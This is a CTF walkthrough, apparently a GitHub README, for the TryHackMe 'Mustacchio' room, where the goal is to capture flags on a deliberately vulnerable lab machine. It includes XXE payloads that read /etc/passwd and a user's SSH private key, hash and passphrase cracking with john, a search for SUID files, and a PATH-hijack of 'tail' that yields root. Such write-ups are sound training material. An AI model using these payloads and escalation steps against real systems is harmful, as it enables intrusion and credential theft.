

# Mustacchio CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Mustacchio** CTF challenge on [TryHackMe](https://tryhackme.com/room/mustacchio). 
---
scanning for open ports


checking hidden directories with feroxbuster


decided to check `/custom/js` and found users.bak sqlite3 database file 


found login credentials for `admin`, we need to crack the hash, i used crackstation


login form on port `8765` 


after using admin credentials, we can find 2 clue inside source code


```
<!-- Barry, you can now SSH in using your key!-->
```
```
//document.cookie = "Example=/auth/dontforget.bak"; 
```

i started testing comment form


the request in burpsuite


the data is sent as xml parameter so i will test for XXE (XML eXternal entity)

i grabbed the code from portswigger website and have to slightly modify it to our needs

testing XXE with /etc/passwd

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>

```


we have access to /etc/passwd

we know about a ssh key so modify the xml parameter to grab it

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```


there is a passphrase so i will try to crack it with john

```
/usr/bin/ssh2john barrykey > hash.txt
```



now

```
john --wordlist=/usr/share/wordlists/rockyou.txt
```


we got a passphrase

now logging as barry and grabbing user flag


ran a few commands to check for PE factor and found something interesting while checking SUID files

```
find / -perm -4000 2>/dev/null
```

found `/home/joe/live_log` sript


checked for strings in this file


script uses tail command so if we could create our own tail command we would gain root access

```
$ mkdir /tmp/tail
$ cd /tmp/tail && touch tail
$ echo "/bin/bash" > tail
$ chmod +x tail
$ export PATH=/tmp/tail:$PATH
```


now we just run `/home/joe/live_log` sript

we got root access and can grab root flag


## MACHINE PWNED
